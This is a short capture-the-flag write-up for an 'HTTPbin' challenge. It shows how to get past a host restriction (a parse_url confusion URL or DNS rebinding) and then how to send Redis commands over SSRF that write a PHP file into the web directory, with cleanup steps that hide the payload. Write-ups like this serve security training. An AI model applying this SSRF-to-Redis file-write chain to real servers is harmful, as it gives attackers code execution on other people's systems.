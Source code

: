 # Secure HTTPbin write-up

TL;DR: Use Redis instance avaialble at 127.0.0.1 to write a php file.

1. Host restriction bypass:
  - either using parse_url bypass `http://foo@your-domain.com:80@google.com/` published by Orange Tsai at Blackhat
  - either using DNS rebinding (see dns.js)
2. Perform a POST request with Redis commands in post body:
  ```
    'CONFIG SET dir /var/www/sandbox',
    "CONFIG SET dbfilename {$file}",
    'SET x \'<?php echo "\n" . (1338-1) . "\n"; unlink(__FILE__); ?>\'',
    'SAVE',
    'DEL x',
    "CONFIG SET dir /var/lib/redis",
    "CONFIG SET dbfilename dump.rdb",
  ```

  Lines 1-4: set directory and filename, inject payload, write file
  Lines 5-7: reset everything to remove our payload from being visible by others*

* There was also a cron job running every minute that was cleaning this up.

